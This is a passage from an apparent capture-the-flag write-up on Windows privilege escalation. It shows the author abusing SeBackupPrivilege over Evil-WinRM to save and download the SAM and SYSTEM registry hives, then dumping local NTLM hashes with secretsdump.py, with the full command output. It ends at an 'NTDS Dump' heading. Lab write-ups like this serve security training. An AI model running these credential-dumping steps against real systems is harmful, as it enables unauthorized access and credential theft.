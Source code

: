## Privilege Escalation

### SeBackupPrivilege Fail

We can check the user privileges to see that we have a lot enabled.

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We have the `SeBackupPrivilege` enabled, which allows us to save the `sam` and `system` files from the registry. We can then use `secretsdump.py` to retrieve the updated hashes for the Administrator.&#x20;

Within `evil-winrm`, run the following:

```
reg save HKLM\sam sam
reg save HKLM\system system
download sam
download system
```

Once we have these files on our system, use `secretsdump.py` to extract the hashes.

```
$ secretsdump.py -sam sam -system system LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

When trying to pass the hash however, this hash **does not work**.

### NTDS Dump

